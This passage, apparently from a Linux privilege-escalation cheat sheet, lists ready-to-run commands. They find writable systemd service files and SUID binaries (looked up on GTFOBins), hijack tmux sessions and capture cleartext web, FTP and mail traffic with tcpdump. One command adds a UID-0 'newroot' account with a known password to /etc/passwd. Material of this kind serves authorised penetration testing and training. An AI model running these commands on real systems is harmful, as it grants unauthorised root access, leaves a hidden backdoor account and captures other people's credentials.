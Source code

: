 ## 9. Service Exploitation

### Systemd Service Files

```bash
# Look for writable service files
find /etc/systemd/system -type f -exec ls -la {} \; 2>/dev/null
find /lib/systemd/system -type f -exec ls -la {} \; 2>/dev/null

# Check if you can enable/start services
systemctl list-unit-files | grep enabled
```

### SUID Exploitation with GTFOBins

Check for SUID binaries that can be exploited via GTFOBins:
```bash
find / -perm -4000 -type f -exec basename {} \; 2>/dev/null | xargs -I{} sh -c 'echo {} && curl -s https://gtfobins.github.io/gtfobins/{}/ | grep -A 5 "SUID"'
```

## 10. Miscellaneous Techniques

### Hijacking Tmux Sessions

```bash
ps aux | grep tmux   # Find tmux sessions
ls -la /shareds      # Check permissions of tmux socket
tmux -S /shareds     # Connect to the socket
```

### Passive Traffic Capture

```bash
tcpdump -i eth0 -A -s0 port http or port ftp or port smtp or port imap
```

### Writing to /etc/passwd

```bash
openssl passwd -1 -salt xyz password   # Generate password hash
echo "newroot:hash:0:0:root:/bin/bash" >> /etc/passwd
```

### PAM Configuration Issues

```bash
cat /etc/pam.d/sudo   # Check PAM configuration
cat /etc/security/access.conf
```

### Automated Enumeration Tools
